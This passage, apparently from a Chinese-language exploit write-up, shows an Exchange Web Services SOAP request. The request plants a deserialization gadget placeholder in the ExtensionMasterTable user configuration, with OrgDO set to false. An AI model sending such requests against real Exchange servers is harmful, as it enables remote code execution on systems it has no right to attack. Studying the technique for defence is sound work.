 然后创建一个新的配置信息，并且把`OrgDO`设置为`Fasle`
```xml
<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:m="http://schemas.microsoft.com/exchange/services/2006/messages" xmlns:t="http://schemas.microsoft.com/exchange/services/2006/types" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Header>
    <t:RequestServerVersion Version="Exchange2013" />
  </soap:Header>
  <soap:Body>
    <m:CreateUserConfiguration>
      <m:UserConfiguration>
        <t:UserConfigurationName Name="ExtensionMasterTable">
          <t:FolderId Id="{folderId}" ChangeKey="{changeKey}" />
        </t:UserConfigurationName>
          <t:Dictionary>
          <t:DictionaryEntry>
          <t:DictionaryKey>
            <t:Type>String</t:Type>
            <t:Value>OrgChkTm</t:Value>
          </t:DictionaryKey>
          <t:DictionaryValue>
            <t:Type>Integer64</t:Type>
            <t:Value>637728170914745525</t:Value>
          </t:DictionaryValue>
          </t:DictionaryEntry>
          <t:DictionaryEntry>
          <t:DictionaryKey>
            <t:Type>String</t:Type>
            <t:Value>OrgDO</t:Value>
          </t:DictionaryKey>
          <t:DictionaryValue>
            <t:Type>Boolean</t:Type>
            <t:Value>false</t:Value>
          </t:DictionaryValue>
          </t:DictionaryEntry>
          <t:DictionaryEntry>
          <t:DictionaryKey>
            <t:Type>String</t:Type>
            <t:Value>OrgExtV</t:Value>
          </t:DictionaryKey>
          <t:DictionaryValue>
            <t:Type>Integer32</t:Type>
            <t:Value>2147483647</t:Value>
          </t:DictionaryValue>
          </t:DictionaryEntry>
        </t:Dictionary>
        <t:BinaryData>{gadget}</t:BinaryData>
      </m:UserConfiguration>  
    </m:CreateUserConfiguration>
  </soap:Body>
</soap:Envelope>
```
